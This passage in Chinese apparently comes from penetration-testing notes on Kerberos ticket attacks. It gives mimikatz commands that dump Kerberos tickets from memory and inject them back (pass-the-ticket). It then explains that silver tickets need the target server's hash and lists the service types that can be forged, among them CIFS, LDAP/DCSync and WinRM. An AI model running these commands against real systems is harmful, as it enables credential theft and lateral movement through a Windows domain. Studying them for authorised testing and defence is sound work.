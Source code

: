 Other：

- kerberos::list -> 列出票据
- kerberos::purge -> 清除票据

将内存中的票据导出：

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
```

将票据文件注入内存：

```cmd
mimikatz.exe "kerberos::ptt 文件路径"  
```

![](/assets/images/move/2020-07-05-16-45-58.png)

由于白银票据需要目标服务器的 Hash，所以没办法生成对应域内所有服务器的票据，也不能通过 TGT 申请。因此只能针对服务器上的某些服务去伪造，伪造的服务类型列表如下:

| 服务名  | 服务注释 |
| :-------- | :--------| 
| RPCSS  | WMI	HOST | 
| HOST、HTTP | Powershell Remoteing | 
| HOST、HTTP | WinRM | 
| HOST | Scheduled Tasks |
| LDAP | LDAP 、DCSync |
| CIFS | Windows File Share |
| RPCSS、LDAP、CIFS | Windows Remote ServerAdministration Tools |
